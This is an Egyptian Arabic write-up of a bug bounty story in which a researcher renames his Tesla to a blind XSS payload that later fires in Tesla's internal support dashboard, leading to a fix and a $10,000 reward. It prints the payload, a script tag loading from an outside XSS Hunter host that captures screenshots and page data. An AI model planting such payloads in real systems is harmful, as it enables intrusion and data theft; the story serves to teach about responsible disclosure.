 #### 📚 القصة – تسلا وسام كاري

#### 👨‍💻 مين سام كاري؟

سام كاري باونتي هانتر مشهور، وشارك في برنامج مكافآت الثغرات بتاع تسلا. القصة دي واحدة من أشهر حكاياته.

### 🚗 البداية: تغيير اسم العربية

سام ماكنش لاقي ثغرات، فقرر يغيّر اسم عربيته على نظام تسلا، وكتب الاسم ده:

```html
"><script src=//zlz.xss.ht></script>
```

ده كود XSS، ومربوط بموقع اسمه **XSS Hunter** – أداة بتساعدك تراقب الـ Payloads وتشوف اتنفذوا فين وامتى.

### 😅 وبعدها نسي خالص إنه غير الاسم

عدّت شهور، وسام كان في رحلة وساعة ما حجر خبط العربية وكسّر الإزاز، راح **قدّم طلب دعم** من خلال تطبيق Tesla عشان يصلّحوه.

#### 📲 المفاجأة بتحصل

تاني يوم، جاتله رسالة من تسلا، ولقى **XSS Hunter بيبلّغه إن الكود اتنفذ** من دومين تابع لتسلا:

```
https://[مخفي].teslamotors.com
```

يعني موظف من تسلا فتح الصفحة اللي فيها بيانات عربية سام، والـ Payload اشتغل عنده.

XSS Hunter سجّل:

- لقطة شاشة  
- تفاصيل الصفحة
- وكل حاجة اتجمعت وقت تنفيذ الكود

### 👀 إيه اللي حصل فعليًا؟

الموظف فتح لوحة تحكم داخلية فيها بيانات عربية سام، والسكريبت اتنفذ جواه. وسام لاحظ إنه **ممكن يتخيل سيناريو يقدر فيه يخمن IDات العربيات التانية ويوصل لبياناتهم** كمان – بس هو ما جربش.

بلغ تسلا، وهما:

- نزلوا **hotfix** في أقل من 12 ساعة
- ودفعوله **$10,000** في خلال أسبوعين

---

#### 🧠 خلاصة اللي حصل:

1. سام غيّر اسم عربيته لـ XSS Payload
2. الكود اتنفذ لما موظف تسلا فتح بيانات عربيته
3. XSS Hunter بلغ سام أول ما الكود اشتغل
4. الأداة جابت له لقطة شاشة وكل التفاصيل اللي حصلت
